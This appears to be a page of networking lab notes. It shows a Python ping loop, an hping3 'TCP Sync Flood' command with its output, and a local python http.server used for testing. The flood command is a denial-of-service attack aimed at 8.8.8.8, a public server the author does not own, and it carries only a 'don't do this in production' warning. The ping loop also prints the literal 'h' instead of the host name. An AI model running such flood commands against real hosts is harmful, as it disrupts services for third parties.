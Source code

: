 ```python
Python 3.11.4 (main, Jun  7 2023, 10:13:09) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import subprocess
>>> host = ["cisco.com", "google.com"]
>>> for h in host:
...     print('host:', 'h')
...     p = subprocess.Popen(['ping', '-c', '1', h], stdout = subprocess.PIPE)
... 
host: h
host: h
>>> print(p.communicate())
(b'PING google.com (172.217.13.206) 56(84) bytes of data.\n64 bytes from yul03s05-in-f14.1e100.net (172.217.13.206): icmp_seq=1 ttl=118 time
=27.8 ms\n\n--- google.com ping statistics ---\n1 packets transmitted, 1 received, 0% packet loss, time 0ms\nrtt min/avg/max/mdev = 27.826/27.826/27.826/0.000 ms\n', None)
>>> 

```

# TCP Sync Flood:

To Install hping3 use:

sudo apt-get install hping3

```bash
# DON'T DO THIS IN PRODUCTION #

$ sudo hping3 -S -p 80 --flood 8.8.8.8

HPING 8.8.8.8 (eth0 8.8.8.8): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 8.8.8.8 hping statistic ---
32547 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

# Testing for Transaction

+ To enable a http server to test layer 7

``` bash
$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
127.0.0.1 - - [09/Sep/2023 15:00:04] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [09/Sep/2023 15:00:07] code 404, message File not found
127.0.0.1 - - [09/Sep/2023 15:00:07] "GET /favicon.ico HTTP/1.1" 404 -
^C
Keyboard interrupt received, exiting.
```
